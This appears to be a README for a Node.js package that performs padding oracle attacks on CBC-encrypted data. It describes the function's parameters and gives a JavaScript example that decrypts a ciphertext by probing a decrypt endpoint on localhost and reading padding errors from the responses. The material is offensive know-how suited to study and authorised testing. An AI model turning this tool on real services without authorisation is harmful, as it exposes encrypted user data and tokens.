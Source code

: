 # Oracle Padding Attack
Oracle Padding Attacker
* You can import it and specify HTTP request and checker function.

## Document
### Function Parameters
1. cipher (encrypted string, type: Buffer)
2. BLOCK size (8 or 16, type: number)
3. the function of requesting HTTP(s) and validating
> You should create function accepting one parameter called "data".<br>
> Request HTTP and validate "data" using status code or response.<br>
> if "data" is validated, return true, otherwise return false.
4. Options (there is only `{ debug: true }`, type: Object)

## Example
```js
const oracle_pad = require("oracle-padding-attack");
const axios = require("axios");
const querystring = require("querystring");

oracle_pad(
	Buffer.from("4H9sSSacHO+8vaRXohMgY7iazFba37eZ9FdQRdSQCenLmEaUoXiWIKOqEjA1hl1yCPHNb+mlCnh3pmdB+8Ya2A==", "base64"),
	16,
	async (data) => {
		return (await axios.get(`http://127.0.0.1/secure/decrypt?e_data=${querystring.escape(data)}&sig=&token=`))
			.data.result.message !== "ValueError";
		//In example code, ValueError occurs only if it is considered a padding error on the server side. 
	},
	{
		debug: true
	}
).then(decrypted => console.log(decrypted.toString('utf8')));
```